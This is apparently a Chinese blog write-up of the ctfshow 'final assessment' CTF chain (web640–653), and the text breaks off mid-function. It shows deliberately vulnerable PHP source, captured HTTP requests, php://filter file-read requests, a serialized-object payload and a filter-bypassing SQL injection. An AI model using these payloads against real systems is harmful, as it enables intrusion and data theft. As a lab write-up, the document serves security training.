


+++
title = "ctfshow终极考核"
slug = "ctfshow-final-assessment"
description = "考核我的内网渗透？"
date = "2024-09-24T12:16:07"
lastmod = "2024-09-24T12:16:07"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["php", "内网渗透", "mysql"]
+++

# web640

进入就有`flag`

# web644

查看源码发现一个页面，但是这样子又跳转回去了，扫一下吧那

```
[00:21:46] 200 -   43B  - /.bowerrc                                         
[00:21:47] 200 -   34B  - /.gitignore                                       
[00:21:49] 200 -    2KB - /.travis.yml                                      
[00:22:06] 200 -    3KB - /page.php                                         
[00:22:10] 200 -   19B  - /robots.txt 
```

然后拿到了源码

```php
include 'init.php';

function addUser($data,$username,$password){
	$ret = array(
		'code'=>0,
		'message'=>'娣诲姞鎴愬姛'
	);
	if(existsUser($data,$username)==0){
		$s = $data.$username.'@'.$password.'|';
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='鐢ㄦ埛宸插瓨鍦�';
	}

	return json_encode($ret);
}

function updateUser($data,$username,$password){
	$ret = array(
		'code'=>0,
		'message'=>'鏇存柊鎴愬姛'
	);
	if(existsUser($data,$username)>0 && $username!='admin'){
		$s = preg_replace('/'.$username.'@[0-9a-zA-Z]+\|/', $username.'@'.$password.'|', $data);
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='鐢ㄦ埛涓嶅瓨鍦ㄦ垨鏃犳潈鏇存柊';
	}

	return json_encode($ret);
}

function delUser($data,$username){
	$ret = array(
		'code'=>0,
		'message'=>'鍒犻櫎鎴愬姛'
	);
	if(existsUser($data,$username)>0 && $username!='admin'){
		$s = preg_replace('/'.$username.'@[0-9a-zA-Z]+\|/', '', $data);
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='鐢ㄦ埛涓嶅瓨鍦ㄦ垨鏃犳潈鍒犻櫎';
	}

	return json_encode($ret);

}

function existsUser($data,$username){
	return preg_match('/'.$username.'@[0-9a-zA-Z]+\|/', $data);
}

function initCache(){
	return file_exists('cache.php')?:file_put_contents('cache.php','<!-- ctfshow-web-cache -->');
}

function clearCache(){
	shell_exec('rm -rf cache.php');
	return 'ok';
}

function flushCache(){
	if(file_exists('cache.php') && file_get_contents('cache.php')===false){
		return FLAG646;
	}else{
		return '';
	}
}

function netTest($cmd){
	$ret = array(
		'code'=>0,
		'message'=>'鍛戒护鎵ц澶辫触'
	);

	if(preg_match('/ping ((2(5[0-5]|[0-4]\d))|[0-1]?\d{1,2})(\.((2(5[0-5]|[0-4]\d))|[0-1]?\d{1,2})){3}/', $cmd)){
		$res = shell_exec($cmd);
		stripos(PHP_OS,'WIN')!==FALSE?$ret['message']=iconv("GBK", "UTF-8", $res):$ret['message']=$res;
		
	}
	if(preg_match('/^[A-Za-z]+$/', $cmd)){
		$res = shell_exec($cmd);
		stripos(PHP_OS,'WIN')!==FALSE?$ret['message']=iconv("GBK", "UTF-8", $res):$ret['message']=$res;
	}
	
	return json_encode($ret);
}
```

然后就找不到了

试着进入`/system36d`发现是个登录界面，

在`https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/static/js/lock/index.js`查看源代码,拿到644的flag同时找到了这个

`checklogin.php?s=10`,

```
https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/checklogin.php?s=10
```

然后进入了后台

# web642

```
GET /system36d/ HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=ffdq8kb1u3hodm7v9tp9jb0ma6
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close
```

这样子拿到了642的flag，不是哥们我到处找啊这东西有意思

# web641

既然刚才抓包得到了642，那么回去找找641的

```
GET / HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=ffdq8kb1u3hodm7v9tp9jb0ma6
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close
```

# web643

发现那个网页可以执行命令那么试试，只有三个命令，而且ping还不可以使用，继续看抓包能不能强行修改

```
GET /system36d/users.php?action=netTest&cmd=ls HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=ffdq8kb1u3hodm7v9tp9jb0ma6
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/main.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close


```

找到`secret.txt`，访问之后拿去解码就是web643的flag

# web645

数据备份里面有`645flag`

# web646

在远程更新里面，进行任意文件读取

```
GET /system36d/users.php?action=remoteUpdate&auth=ctfshow%7B28b00f799c2e059bafaa1d6bda138d89%7D&update_address=php%3a%2f%2ffilter%2fconvert.base64-encode%2fresource%3dinit.php HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=ffdq8kb1u3hodm7v9tp9jb0ma6
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/main.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close


```

```php
<?php

define('DB_PATH', __DIR__.'/db/data_you_never_know.db');
define('FLAG645','flag645=ctfshow{28b00f799c2e059bafaa1d6bda138d89}');
define('FLAG646','flag646=ctfshow{5526710eb3ed7b4742232d6d6f9ee3a9}');

//存在漏洞，未修补前注释掉
//include 'util/common.php';
```

# web647

那么我们读取文件一下

```
- checklogin.php
- db
- index.php
- init.php
- login.php
- logout.php
- main.php
- secret.txt
- static
- update.php
- update2.php
- users.php
- util
```

users.php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-07-26 10:25:59
# @Last Modified by:   h1xa
# @Last Modified time: 2021-08-01 01:52:58
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
session_start();
include 'init.php';

$a=$_GET['action'];


$data = file_get_contents(DB_PATH);
$ret = '';
switch ($a) {
	case 'list':
		$ret = getUsers($data,intval($_GET['page']),intval($_GET['limit']));
		break;
	case 'add':
		$ret = addUser($data,$_GET['username'],$_GET['password']);
		break;
	case 'del':
		$ret = delUser($data,$_GET['username']);
		break;
	case 'update':
		$ret = updateUser($data,$_GET['username'],$_GET['password']);
		break;
	case 'backup':
		backupUsers();
		break;
	case 'upload':
		$ret = recoveryUsers();
		break;
	case 'phpInfo':
		$ret = phpInfoTest();
		break;
	case 'netTest':
		$ret = netTest($_GET['cmd']);
		break;
	case 'remoteUpdate':
		$ret = remoteUpdate($_GET['auth'],$_GET['update_address']);
		break;
	case 'authKeyValidate':
		$ret = authKeyValidate($_GET['auth']);
		break;
	case 'evilString':
		evilString($_GET['m']);
		break;
	case 'evilNumber':
		evilNumber($_GET['m'],$_GET['key']);
		break;
	case 'evilFunction':
		evilFunction($_GET['m'],$_GET['key']);
		break;
	case 'evilArray':
		evilArray($_GET['m'],$_GET['key']);
		break;
	case 'evilClass':
		evilClass($_GET['m'],$_GET['key']);
		break;
	default:
		$ret = json_encode(array(
		'code'=>0,
		'message'=>'数据获取失败',
		));
		break;
}

echo $ret;


function getUsers($data,$page=1,$limit=10){
	$ret = array(
		'code'=>0,
		'message'=>'数据获取成功',
		'data'=>array()
	);

	
	$isadmin = '否';
	$pass = '';
	$content='无';

	$users = explode('|', $data);
	array_pop($users);
	$index = 1;

	foreach ($users as $u) {
		if(explode('@', $u)[0]=='admin'){
			$isadmin = '是';
			$pass = 'flag就是管理员的密码，不过我隐藏了';
			$content = '删除此条记录后flag就会消失';
		}else{
			$pass = explode('@', $u)[1];
		}
		array_push($ret['data'], array(
			'id'=>$index,
			'username'=>explode('@', $u)[0],
			'password'=>$pass,
			'isAdmin'=>$isadmin,
			'content'=>$content
		));
		$index +=1;
	}
	$ret['count']=$index;
	$start = ($page-1)*$limit;
	$ret['data']=array_slice($ret['data'], $start,$limit,true);

	return json_encode($ret);

}

function addUser($data,$username,$password){
	$ret = array(
		'code'=>0,
		'message'=>'添加成功'
	);
	if(existsUser($data,$username)==0){
		$s = $data.$username.'@'.$password.'|';
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='用户已存在';
	}

	return json_encode($ret);
}

function updateUser($data,$username,$password){
	$ret = array(
		'code'=>0,
		'message'=>'更新成功'
	);
	if(existsUser($data,$username)>0 && $username!='admin'){
		$s = preg_replace('/'.$username.'@[0-9a-zA-Z]+\|/', $username.'@'.$password.'|', $data);
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='用户不存在或无权更新';
	}

	return json_encode($ret);
}

function delUser($data,$username){
	$ret = array(
		'code'=>0,
		'message'=>'删除成功'
	);
	if(existsUser($data,$username)>0 && $username!='admin'){
		$s = preg_replace('/'.$username.'@[0-9a-zA-Z]+\|/', '', $data);
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='用户不存在或无权删除';
	}

	return json_encode($ret);

}

function existsUser($data,$username){
	return preg_match('/'.$username.'@[0-9a-zA-Z]+\|/', $data);
}

function backupUsers(){
	$file_name = DB_PATH;
	if (! file_exists ($file_name )) {    
	    header('HTTP/1.1 404 NOT FOUND');  
	} else {    
	    $file = fopen ($file_name, "rb" ); 
	    Header ( "Content-type: application/octet-stream" ); 
	    Header ( "Accept-Ranges: bytes" );  
	    Header ( "Accept-Length: " . filesize ($file_name));  
	    Header ( "Content-Disposition: attachment; filename=backup.dat");     
	    echo str_replace(FLAG645, 'flag就在这里，可惜不能给你', fread ( $file, filesize ($file_name)));    
	    fclose ( $file );    
	    exit ();    
	}
}

function getArray($total, $times, $min, $max)
    {
        $data = array();
        if ($min * $times > $total) {
            return array();
        }
        if ($max * $times < $total) {
            return array();
        }
        while ($times >= 1) {
            $times--;
            $kmix = max($min, $total - $times * $max);
            $kmax = min($max, $total - $times * $min);
            $kAvg = $total / ($times + 1);
            $kDis = min($kAvg - $kmix, $kmax - $kAvg);
            $r = ((float)(rand(1, 10000) / 10000) - 0.5) * $kDis * 2;
            $k = round($kAvg + $r);
            $total -= $k;
            $data[] = $k;
        }
        return $data;
 }


function recoveryUsers(){
	$ret = array(
		'code'=>0,
		'message'=>'恢复成功'
	);
	if(isset($_FILES['file']) && $_FILES['file']['size']<1024*1024){
		$file_name= $_FILES['file']['tmp_name'];
		$result = move_uploaded_file($file_name, DB_PATH);
		if($result===false){
			$ret['message']='数据恢复失败 file_name'.$file_name.' DB_PATH='.DB_PATH;
		}

	}else{
		$ret['message']='数据恢复失败';
	}

	return json_encode($ret);
}

function phpInfoTest(){
	return phpinfo();

}

function authKeyValidate($auth){
	$ret = array(
		'code'=>0,
		'message'=>$auth==substr(FLAG645, 8)?'验证成功':'验证失败',
		'status'=>$auth==substr(FLAG645, 8)?'0':'-1'
	);
	return json_encode($ret);
}

function remoteUpdate($auth,$address){
	$ret = array(
		'code'=>0,
		'message'=>'更新失败'
	);

	if($auth!==substr(FLAG645, 8)){
		$ret['message']='权限key验证失败';
		return json_encode($ret);
	}else{
		$content = file_get_contents($address);
		$ret['message']=($content!==false?$content:'地址不可达');
	}

	return json_encode($ret);


}

function evilString($m){
	$key = '372619038';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE){
		echo shell_exec('cat /FLAG/FLAG647');
	}else{
		echo 'you are not 372619038?';
	}

}

function evilClass($m,$k){
	class ctfshow{
		public $m;
		public function construct($m){
			$this->$m=$m;
		}
	}

	$ctfshow=new ctfshow($m);
	$ctfshow->$m=$m;
	if($ctfshow->$m==$m && $k==shell_exec('cat /FLAG/FLAG647')){
		echo shell_exec('cat /FLAG/FLAG648');
	}else{
		echo 'mmmmm?';
	}

}

function evilNumber($m,$k){
	$number = getArray(1000,20,10,999);
	if($number[$m]==$m && $k==shell_exec('cat /FLAG/FLAG648')){
		echo shell_exec('cat /FLAG/FLAG649');
	}else{
		echo 'number is right?';
	}
}

function evilFunction($m,$k){
	$key = 'ffffffff';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE && $k==shell_exec('cat /FLAG/FLAG649')){
		echo shell_exec('cat /FLAG/FLAG650');
	}else{
		echo 'you are not ffffffff?';
	}
}

function evilArray($m,$k){
	$arrays=unserialize($m);
	if($arrays!==false){
		if(array_key_exists('username', $arrays) && in_array('ctfshow', get_object_vars($arrays)) &&  $k==shell_exec('cat /FLAG/FLAG650')){
			echo shell_exec('cat /FLAG/FLAG651');
		}else{
			echo 'array?';
		}
	}
}

function netTest($cmd){
	$ret = array(
		'code'=>0,
		'message'=>'命令执行失败'
	);

	if(preg_match('/^[A-Za-z]+$/', $cmd)){
		$res = shell_exec($cmd);
		stripos(PHP_OS,'WIN')!==FALSE?$ret['message']=iconv("GBK", "UTF-8", $res):$ret['message']=$res;
	}
	
	return json_encode($ret);
}
```

```php
function evilString($m){
	$key = '372619038';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE){
		echo shell_exec('cat /FLAG/FLAG647');
	}else{
		echo 'you are not 372619038?';
	}

}
```

利用特性`null!=false`或者是`session_id`都可以解决

```
https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/users.php?action=evilString&m=getenv
```

`getenv`返回的是数组

```
GET /system36d/users.php?action=evilString&m=session_id HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=372619038
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close


```

# web648

```php
function evilClass($m,$k){
	class ctfshow{
		public $m;
		public function construct($m){
			$this->$m=$m;
		}
	}

	$ctfshow=new ctfshow($m);
	$ctfshow->$m=$m;
	if($ctfshow->$m==$m && $k==shell_exec('cat /FLAG/FLAG647')){
		echo shell_exec('cat /FLAG/FLAG648');
	}else{
		echo 'mmmmm?';
	}

}

```

```
flag_647=ctfshow{e6ad8304cdb562971999b476d8922219}
```

说实话这里不懂这个m是怎么回事，但是结果就是可以覆盖

```
https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/users.php?action=evilClass&m=getenv&key=flag_647=ctfshow{e6ad8304cdb562971999b476d8922219}
```

# web649

```php
function evilNumber($m,$k){
	$number = getArray(1000,20,10,999);
	if($number[$m]==$m && $k==shell_exec('cat /FLAG/FLAG648')){
		echo shell_exec('cat /FLAG/FLAG649');
	}else{
		echo 'number is right?';
	}
}
```

```php
function getArray($total, $times, $min, $max)
    {
        $data = array();
        if ($min * $times > $total) {
            return array();
        }
        if ($max * $times < $total) {
            return array();
        }
        while ($times >= 1) {
            $times--;
            $kmix = max($min, $total - $times * $max);
            $kmax = min($max, $total - $times * $min);
            $kAvg = $total / ($times + 1);
            $kDis = min($kAvg - $kmix, $kmax - $kAvg);
            $r = ((float)(rand(1, 10000) / 10000) - 0.5) * $kDis * 2;
            $k = round($kAvg + $r);
            $total -= $k;
            $data[] = $k;
        }
        return $data;
 }
```

说实话没看懂这啥玩意，不管他直接爆破或者不传值

```
flag_649=ctfshow{9ad80fcc305b58afbb3a0c2097ac40ef}
```

# web650

这里的话一个效果就是很简单，直接就搞就完事了

```php
function evilFunction($m,$k){
	$key = 'ffffffff';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE && $k==shell_exec('cat /FLAG/FLAG649')){
		echo shell_exec('cat /FLAG/FLAG650');
	}else{
		echo 'you are not ffffffff?';
	}
}
```

```
https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/users.php?action=evilFunction&m=getenv&key=flag_649=ctfshow{9ad80fcc305b58afbb3a0c2097ac40ef}
```

# web651

```php
function evilArray($m,$k){
	$arrays=unserialize($m);
	if($arrays!==false){
		if(array_key_exists('username', $arrays) && in_array('ctfshow', get_object_vars($arrays)) &&  $k==shell_exec('cat /FLAG/FLAG650')){
			echo shell_exec('cat /FLAG/FLAG651');
		}else{
			echo 'array?';
		}
	}
}
```

`username`为属性名`ctfshow`为属性值

```php
<?php
class A{
    public $username="ctfshow";
}
echo urlencode(serialize(new A()));
```

```
https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/users.php?action=evilArray&m=O%3A1%3A%22A%22%3A1%3A%7Bs%3A8%3A%22username%22%3Bs%3A7%3A%22ctfshow%22%3B%7D&key=flag_650=ctfshow{5eae22d9973a16a0d37c9854504b3029}
```

```
flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}
```

然后这里面就看不到了去读取其他文件

# web652

但是不知道文件名只能重新回去看抓包了

查看之前的`page.php`(因为现在的页面已经没有flag获取方式了)

```
GET /system36d/users.php?action=remoteUpdate&auth=ctfshow%7B28b00f799c2e059bafaa1d6bda138d89%7D&update_address=php%3a%2f%2ffilter%2fconvert.base64-encode%2fresource%3d../page.php HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=ffdq8kb1u3hodm7v9tp9jb0ma6
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/main.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close


```

```php
<?php

error_reporting(0);
include __DIR__.DIRECTORY_SEPARATOR.'system36d/util/dbutil.php';

$id = isset($_GET['id']) ? $_GET['id'] : '1';

// 转义 ' " \ 来实现防止注入
$id = addslashes($id);

$name = db::get_username($id);
?>
```

这不一看就注入吗，继续读取

```
GET /system36d/users.php?action=remoteUpdate&auth=ctfshow%7B28b00f799c2e059bafaa1d6bda138d89%7D&update_address=php://filter/convert.base64-encode/resource=./util/dbutil.php HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=ffdq8kb1u3hodm7v9tp9jb0ma6
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/main.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close


```

```php
<?php

class db{
    private static $host='localhost';
    private static $username='root';
    private static $password='root';
    private static $database='ctfshow';
    private static $conn;

    public static function get_key(){
        $ret = '';
        $conn = self::get_conn();
        $res = $conn->query('select `key` from ctfshow_keys');
        if($res){
            $row = $res->fetch_array(MYSQLI_ASSOC);
        }
        $ret = $row['key'];
        self::close();
        return $ret;
    }

    public static function get_username($id){
        $ret = '';
        $conn = self::get_conn();
        $res = $conn->query("select `username` from ctfshow_users where id = ($id)");
        if($res){
            $row = $res->fetch_array(MYSQLI_ASSOC);
        }
        $ret = $row['username'];
        self::close();
        return $ret;
    }

    private static function get_conn(){
        if(self::$conn==null){
            self::$conn = new mysqli(self::$host, self::$username, self::$password, self::$database);
        }
        return self::$conn;
    }

    private static function close(){
        if(self::$conn!==null){
            self::$conn->close();
        }
    }

}


```

直接括号闭合就行了，但是注入的时候发现貌似是过滤了`information`,那就换一下

```
/page.php?id=222)+union+select+group_concat(table_name)+from+mysql.innodb_table_stats+where+database_name=database()%23

/page.php?id=222)+union+select+*+from+ctfshow_secret%23
```

# web653

```
GET /system36d/users.php?action=remoteUpdate&auth=ctfshow%7B28b00f799c2e059bafaa1d6bda138d89%7D&update_address=php://filter/convert.base64-encode/resource=./util/common.php HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=ffdq8kb1u3hodm7v9tp9jb0ma6
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/main.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close


```

```php
<?php

include 'dbutil.php';
if($_GET['k']!==shell_exec('cat /FLAG/FLAG651')){
